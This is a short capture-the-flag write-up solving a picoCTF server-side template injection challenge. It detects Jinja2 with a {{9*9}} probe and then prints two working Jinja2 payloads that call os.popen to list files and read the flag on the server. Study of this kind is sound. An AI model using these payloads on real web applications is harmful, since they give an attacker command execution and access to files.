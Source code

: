 # SSTI1

I made a cool website where you can announce whatever you want! Try it out!

> https://play.picoctf.org/practice/challenge/492

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings

# Solve

Based on the name, this is a server side template injection challenge. We try a very common `{{9*9}}` ssti test to see if the server is jinja2 (python) or not.

![alt text](../../../../assets/SSTI1-1.png)

![alt text](../../../../assets/SSTI1-2.png)

Because the expression evaluated to 81, aka 9 * 9, we know that the server is using jinja2. We use this trick to do listing on the server

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

![alt text](../../../../assets/SSTI1-3.png)

![alt text](../../../../assets/SSTI1-4.png)

We see a file named flag, lets cat that using this

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

![alt text](../../../../assets/SSTI1-5.png)

![alt text](../../../../assets/SSTI1-6.png)